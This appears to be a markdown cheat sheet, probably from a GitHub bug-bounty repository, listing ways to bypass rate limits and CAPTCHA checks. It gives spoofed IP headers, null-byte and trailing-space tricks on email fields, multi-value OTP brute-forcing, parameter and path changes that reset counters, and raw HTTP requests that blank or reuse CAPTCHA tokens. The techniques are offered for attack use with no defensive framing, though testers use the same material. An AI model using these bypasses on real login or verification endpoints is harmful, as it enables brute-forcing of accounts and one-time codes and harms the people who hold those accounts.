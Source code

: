 #  Rate Limit

## 1 HTTP Methods
    If the request goes on GET try to change it to POST, PUT, etc.,
    If you wanna bypass the rate-limit in API's try HEAD method.
    
    
## 2 Add some custom header
```
X-Forwarded-For : 127.0.0.1
X-Host : 127.0.0.1
X-Forwarded-Host : 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Client-IP : 127.0.0.1
X-Remote-IP : 127.0.0.1
X-Remote-Addr : 127.0.0.1 
X-Custom-IP-Authorization: 127.0.0.1

#or use double X-Forwared-For header
X-Forwarded-For:
X-Forwarded-For: 127.0.0.1
```

## 3.Using Special Characters
  ```  
    Adding Null Byte ( %0d , %2e , %09 , %20 , %0, %00, %0d%0a, %0a, %0C) at the end of the Email email=victim@gmail.com%00
    Try adding a Space Character after a Email. ( Not Encoded ) {"email":"victim@gmail.com "}
    Adding a slash(/) at the end of api endpoint can also Bypass Rate Limit. domain.com/v1/login -> domain.com/v1/login/
```


## 4. Using IP Rotate Burp Extension

    Try changing the user-agent, the cookies... anything that could be able to identify you
    If they are limiting to 10 tries per IP, every 10 tries change the IP inside the header.
    
    
## 5 Multiple values in request

    When brute-force, try passing several values in one request at once, for instance:
    phone=+17342239011&code[]=123456&code[]=654321&...&code[]=331337
    
## 6 Use different params: 
    sign-up, Sign-up, SignUp
    
## 7 Confuse server with correct attempts
    
    If the server is blocking you after 20 attempts, Try bruteforcing with 19 attempts and use your credentials to login to your account on 20th attempt and then     repeat the process.
    
## 8 - Updating target Paths

appending random param=value may sometimes bypass rate limit on the endpoint

Eg:
- Bruteforce /api/v1/users/<id>
- Got blocked after 200 attempts
- Now Bruteforce /api/v1/users/<id>?xyz=123
- and change the param=value after each 200 attempts
    
------------------------------------------------------------------------------------------------------------------------------------------------------------------
# Captcha
## Changing the request method, 

## Custom header 
```
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
```
## Remove the value of the captcha parameter
```
POST / HTTP 1.1
Host: target.com
[...]
_RequestVerificationToken=&_Username=daffa&_Password=test123
```

## Try reuse old captcha token
```
POST / HTTP 1.1
Host: target.com
[...]
_RequestVerificationToken=OLD_CAPTCHA_TOKEN&_Username=daffa&_Password=test123
```

## Convert JSON data to normal request parameter
```
POST / HTTP 1.1
Host: target.com
[...]
{"_RequestVerificationToken":"xxxxxxxxxxxxxx","_Username":"daffa","_Password":"test123"}

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```

    
    
    
    
    
    


